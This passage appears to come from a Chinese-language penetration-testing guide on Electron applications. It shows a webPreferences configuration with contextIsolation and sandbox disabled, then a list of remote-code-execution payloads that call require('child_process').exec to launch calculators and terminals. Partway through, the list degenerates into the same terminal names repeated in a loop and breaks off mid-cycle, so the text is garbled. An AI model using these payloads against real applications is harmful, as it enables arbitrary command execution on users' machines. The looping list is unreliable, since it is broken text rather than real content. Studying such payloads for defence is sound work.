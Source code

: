 ```javascript
blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
nodeIntegration: false,
contextIsolation: false,
sandbox: false,
nodeIntegrationInSubFrames: false,
preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
nativeWindowOpen: true,
enableRemoteModule: false,
spellcheck: true
}
};
```
以下是来自[这里](https://7as.es/electron/nodeIntegration_rce.txt)的一些**RCE负载**：

```plaintext
- `require('child_process').exec('calc.exe')`
- `require('child_process').exec('gnome-calculator')`
- `require('child_process').exec('xcalc')`
- `require('child_process').exec('mate-calc')`
- `require('child_process').exec('kcalc')`
- `require('child_process').exec('konsole')`
- `require('child_process').exec('gnome-terminal')`
- `require('child_process').exec('xterm')`
- `require('child_process').exec('xfce4-terminal')`
- `require('child_process').exec('lxterminal')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('st')`
- `require('child_process').exec('alacritty')`
- `require('child_process').exec('urxvt')`
- `require('child_process').exec('sakura')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
- `require('child_process').exec('roxterm')`
- `require('child_process').exec('eterm')`
- `require('child_process').exec('terminix')`
- `require('child_process').exec('cool-retro-term')`
- `require('child_process').exec('deepin-terminal')`
- `require('child_process').exec('terminology')`
- `require('child_process').exec('terminator')`
- `require('child_process').exec('tilda')`
- `require('child_process').exec('guake')`
- `require('child_process').exec('yakuake')`
```
